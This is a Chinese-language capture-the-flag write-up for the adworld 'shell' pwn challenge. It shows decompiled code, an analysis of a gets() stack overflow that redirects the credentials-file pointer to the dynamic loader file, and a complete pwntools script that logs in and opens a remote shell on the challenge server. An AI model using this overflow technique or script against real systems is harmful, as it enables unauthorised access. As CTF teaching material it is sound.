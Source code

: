 # shell

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=f731d3ab-76f9-41de-9a39-7b65c4568b30_2)

8级世界的一股清流。

-   Arch:     amd64-64-little
    <br>RELRO:    No RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)

看main，发现题目的难度不能单纯靠checksec来推断。

```c
void main(undefined4 param_1,undefined8 param_2)

{
  int iVar1;
  char *__s2;
  char *__s2_00;
  long lVar2;
  size_t local_b0;
  __ssize_t local_a8;
  char *local_a0;
  FILE *local_98;
  char local_89;
  int local_88;
  char acStack132 [32];
  char acStack100 [32];
  char acStack68 [36];
  char *local_20;
  undefined8 local_18;
  undefined4 local_10;
  undefined4 local_c;
  
  local_c = 0;
  local_20 = "creds.txt";
  local_88 = 0;
  local_18 = param_2;
  local_10 = param_1;
  setvbuf(stdout,(char *)0x0,2,0);
  local_89 = '$';
  do {
    while( true ) {
      printf("%c ",(ulong)(uint)(int)local_89);
      gets(acStack68);
      iVar1 = strcmp(acStack68,"login");
      if (iVar1 == 0) break;
      lVar2 = command_get(acStack68);
      if (lVar2 == 0) {
        puts("Command not found");
      }
      else if ((*(int *)(lVar2 + 0x10) == 1) && (local_88 != 1)) {
        puts("Permission denied");
      }
      else {
        (**(code **)(lVar2 + 8))();
      }
    }
    printf("Username: ");
    gets(acStack132);
    printf("Password: ");
    gets(acStack100);
    local_98 = fopen(local_20,"r");
    while( true ) {
      local_a0 = (char *)0x0;
      local_b0 = 0;
      local_a8 = getline(&local_a0,&local_b0,local_98);
      if (local_a8 < 0) break;
      local_a0[local_a8 + -1] = '\0';
      __s2 = strtok(local_a0,":");
      __s2_00 = strtok((char *)0x0,":");
      if ((((__s2 != (char *)0x0) && (__s2_00 != (char *)0x0)) &&
          (iVar1 = strcmp(acStack132,__s2), iVar1 == 0)) &&
         (iVar1 = strcmp(acStack100,__s2_00), iVar1 == 0)) {
        puts("Authenticated!");
        local_89 = '#';
        local_88 = 1;
        goto LAB_00400df8;
      }
      free(local_a0);
    }
    free(local_a0);
LAB_00400df8:
    if (local_88 != 1) {
      puts("Authentication failed!");
    }
    fclose(local_98);
  } while( true );
}
```

我自己运行了一下，像模像样的。然而漏洞也非常明显，gets无脑读入字符串，必定有栈溢出。rop好像不能用，一是canary，二是整个main都是无限循环，唯二退出的办法是ctrl+c或者自带的exit命令，这两种都无法很好的构造rop。继续在程序里看看，sh函数可以直接getshell，但是需要认证后才能使用。那看看这个判断怎么绕过。

[strtok](https://www.runoob.com/cprogramming/c-function-strtok.html)相当于python里的split，只不过效果有点奇怪，建议看刚刚的文档了解例子。[getline](https://blog.csdn.net/zqixiao_09/article/details/50253883)不是c库标准函数，不过也是有介绍的。

根据代码，local_98是文件local_20的内容，local_20为"creds.txt"，我们肯定不知道其中的内容。local_a0是local_98按照:做分割后得到的内容，__s2是:的前半部分，对应用户名；__s2_00是后半部分，对应密码。acStack132是我们输入的用户名，acStack100是我们输入的密码。输入的用户密码和文件内容一致即可通过验证。

分析完了，怎么绕过呢？相信大家早就想好方案了。gets读取的字符串可以覆盖到local_20，把local_20改为已知内容的文件名称就行了。可是，什么文件内容已知，而且在远程服务器上也有？附件给了我们libc，我们可以提前得知里面的内容，远程服务器上必定也有libc，路径为/lib64/ld-linux-x86-64.so.2。现在要干的就是找libc文件里有什么符合用户名:密码这种格式的字符串。

- strings ld-linux-x86-64.so.2 | grep ':'

找到很多啊，随便拿一个，记得溢出到指针然后把指针改为0x400200（程序内libc地址）。

```python
from pwn import *  
  
sh = remote('61.147.171.105',64909)  
  
#sh = process('./shell')  
sh.sendline('login')  
sh.sendlineafter('Username: ','sea')  
#溢出栈覆盖filename，使得程序读取/lib64/ld-linux-x86-64.so.2文件中的内容  
payload = b'a'*0x44 + p64(0x400200)  
sh.sendlineafter('Password: ',payload)  
  
sh.sendlineafter('Authentication failed!','login')  
sh.sendlineafter('Username: ','relocation processing')  
sh.sendlineafter('Password: ',' %s%s')  
  
sh.sendlineafter('Authenticated!','sh')  
  
  
sh.interactive()  
```